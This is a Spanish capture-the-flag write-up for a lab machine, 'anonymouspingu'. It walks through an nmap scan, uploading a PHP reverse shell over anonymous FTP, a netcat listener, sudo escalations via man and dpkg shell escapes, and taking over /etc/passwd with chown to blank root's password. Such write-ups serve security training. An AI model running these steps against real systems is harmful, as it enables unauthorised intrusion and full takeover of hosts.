









# Máquina anonymouspingu

---

Dificultad -> Fácil

---

Empezamos con nmap para ver puertos

```shell
nmap -p- --open -sCV --min-rate=5000 -n -Pn 172.17.0.2
```

```shell
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 0        0            7816 Nov 25  2019 about.html
| -rw-r--r--    1 0        0            8102 Nov 25  2019 contact.html
| drwxr-xr-x    2 0        0            4096 Jan 01  1970 css
| drwxr-xr-x    2 0        0            4096 Apr 28  2024 heustonn-html
| drwxr-xr-x    2 0        0            4096 Oct 23  2019 images
| -rw-r--r--    1 0        0           20162 Apr 28  2024 index.html
| drwxr-xr-x    2 0        0            4096 Oct 23  2019 js
| -rw-r--r--    1 0        0            9808 Nov 25  2019 service.html
|_drwxrwxrwx    1 33       33           4096 Apr 28  2024 upload [NSE: writeable]
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Mantenimiento
```

Vemos el ftp y http abierto, el ftp con el usuario anonymous activado, donde se pueden ver lo que parecen los archivos de la pagina web, antes de ir a eso, le echo un vistazo a la página web:



Mirando un poco veo que en `Acceder al Backend` en el panel superior te lleva a /uploads donde puedes ver los archivos subidos



Viendo esto y que en el ftp está la página web, accedo a uploads y subo una revshell en php de [revshells.com](https://www.revshells.com/) con el comando `put shell.php`



Ahora, teniendo la revshell subida, accedo a ella desde /uploads mientras que escucho desde mi máquina con `nc -lvnp 4444` 



Y con esto estamos dentro de la máquina, antes de nada, hago [Tratamiento de la TTY](https://invertebr4do.github.io/tratamiento-de-tty/#) y seguidamente un `sudo -l` para ver que binarios podemos ejecutar



Veo que puedo escalar a pingu con `man` asi que busco en [GTFOBins](https://gtfobins.github.io/gtfobins/man/#sudo) y ejecuto `sudo -u pingu man man` y seguidamente `!/bin/bash`  



Ahora, siendo pingu, hago otro `sudo -l` y veo que pued ejecutar nmap y dpkg, nuevamente busco en [GTFOBins](https://gtfobins.github.io/gtfobins/dpkg/#sudo) y veo que con `sudo -u gladys dpkg -l` y seguidamente `!/bin/bash` escalo a gladys



Vuelvo ha hacer `sudo -l` y veo `chown`, miro en [GTFOBins](https://gtfobins.github.io/gtfobins/chown/#sudo) y veo que puedo cambiar el propietario de archivos asi que con `sudo chown $(id -un):$(id -gn) /etc/passwd` me hago el propietario de `/etc/passwd`.

Ahora, puedo editar el archivo `/etc/passwd`, como no hay un editor de texto instalado, hago un `cat /etc/passwd`, copio el contenido borrando la `x` en el usuario root para eliminar su contraseña y con `echo 'contenido' > /ect/passwd` el usuario root ya no tiene contraseña (posiblemente no el mejor metodo pero el que se me ocurrió)



Y ahora simplemente haciendo `su root`, somos root


